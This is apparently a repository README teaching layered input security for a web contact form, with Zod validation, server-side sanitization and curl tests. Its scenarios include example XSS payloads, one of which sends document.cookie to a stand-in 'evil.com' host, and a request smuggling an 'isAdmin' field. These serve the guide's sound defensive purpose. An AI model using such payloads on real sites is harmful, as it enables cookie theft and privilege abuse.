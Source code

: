 # Contact Form Security Example

This directory contains an example of properly securing a contact form with **layered security**.

## Files

- `route.ts` - API endpoint with sanitization and validation
- `README.md` - This file explaining the security approach

## The Three Layers of Security

### 1. Client-Side Validation (Optional but Recommended)
```tsx
// Example using React Hook Form (install with: pnpm add react-hook-form zod @hookform/resolvers)
'use client';

import { useForm } from 'react-hook-form';
import { zodResolver } from '@hookform/resolvers/zod';
import { z } from 'zod';

const contactSchema = z.object({
  name: z.string().min(1).max(100),
  email: z.string().email(),
  subject: z.string().min(1).max(200),
  message: z.string().min(10).max(5000),
});

export function ContactForm() {
  const { register, handleSubmit, formState: { errors } } = useForm({
    resolver: zodResolver(contactSchema)
  });

  const onSubmit = async (data: any) => {
    const response = await fetch('/api/contact', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify(data),
    });
    // Handle response...
  };

  return (
    <form onSubmit={handleSubmit(onSubmit)}>
      {/* Form fields */}
    </form>
  );
}
```

**Purpose**: Improve user experience with instant feedback
**Security Level**: ❌ NONE - Can be bypassed

### 2. Server-Side Sanitization (REQUIRED)
```typescript
import { sanitizeInput } from '@/lib/contracts/validation.middleware';

const sanitized = sanitizeInput(rawData, {
  stripHtml: true,
  maxLength: 5000,
  allowedFields: ['name', 'email', 'subject', 'message']
});
```

**Purpose**: Remove malicious content (XSS prevention)
**Security Level**: ✅ HIGH - Cannot be bypassed

### 3. Server-Side Validation (REQUIRED)
```typescript
import { z } from 'zod';

const validated = ContactSchema.parse(sanitized);
```

**Purpose**: Enforce types, formats, and business rules
**Security Level**: ✅ HIGH - Cannot be bypassed

## Why Not Just One?

### Scenario: Attacker Bypasses Client
```bash
# Attacker ignores your React form and calls API directly
curl -X POST https://yourapi.com/api/contact \
  -H "Content-Type: application/json" \
  -d '{
    "name": "Hacker",
    "email": "test@evil.com",
    "subject": "XSS Attack",
    "message": "<script>steal_cookies()</script>",
    "isAdmin": true
  }'
```

**Without sanitization**: XSS payload gets stored in database
**With sanitization**: Script tags removed, `isAdmin` field filtered out

### Scenario: Sophisticated XSS
```javascript
// This passes Zod validation (it's a valid string)
message: '<img src=x onerror="fetch(\'evil.com?c=\'+document.cookie)">'
```

**Zod alone**: ✅ Valid string - Stored in database
**Zod + Sanitization**: ❌ HTML stripped - Safe string stored

## Common Mistakes

### ❌ Mistake 1: Client validation only
```typescript
// VULNERABLE!
export async function POST(request: NextRequest) {
  const data = await request.json();
  await saveToDatabase(data); // Direct save without sanitization
}
```

### ❌ Mistake 2: Validation without sanitization
```typescript
// STILL VULNERABLE TO XSS!
export async function POST(request: NextRequest) {
  const data = await request.json();
  const validated = schema.parse(data); // Zod accepts XSS strings
  await saveToDatabase(validated); // Stores malicious content
}
```

### ✅ Correct: Sanitize THEN validate
```typescript
export async function POST(request: NextRequest) {
  const raw = await request.json();
  const sanitized = sanitizeInput(raw, options); // Remove malicious content
  const validated = schema.parse(sanitized);      // Check types & rules
  await saveToDatabase(validated);                 // Safe!
}
```

## Testing Your Security

### Test 1: XSS Prevention
```bash
curl -X POST http://localhost:3000/api/contact \
  -H "Content-Type: application/json" \
  -d '{
    "name": "Test",
    "email": "test@example.com",
    "subject": "Test",
    "message": "<script>alert(\"XSS\")</script>"
  }'
```

Expected: Script tags should be removed from stored/displayed content

### Test 2: Field Whitelisting
```bash
curl -X POST http://localhost:3000/api/contact \
  -H "Content-Type: application/json" \
  -d '{
    "name": "Test",
    "email": "test@example.com",
    "subject": "Test",
    "message": "Hello",
    "isAdmin": true,
    "creditBalance": 9999
  }'
```

Expected: Only allowed fields (name, email, subject, message) should be processed

### Test 3: Length Limits
```bash
curl -X POST http://localhost:3000/api/contact \
  -H "Content-Type: application/json" \
  -d "{\"name\":\"Test\",\"email\":\"test@example.com\",\"subject\":\"Test\",\"message\":\"$(python3 -c 'print(\"A\" * 10000)')\"}"
```

Expected: Message should be truncated to maxLength setting

## Additional Resources

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Input Validation Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)
- See `/docs/SECURITY-VALIDATION.md` for comprehensive security guide

## Summary

1. ✅ Use client-side validation for UX (React Hook Form)
2. ✅ Use server-side sanitization for security (`sanitizeInput`)
3. ✅ Use server-side validation for type safety (Zod)
4. ✅ Use parameterized queries for SQL safety (ORMs)
5. ✅ Never trust client-side data

**Remember**: Security requires multiple layers. One defense is never enough.
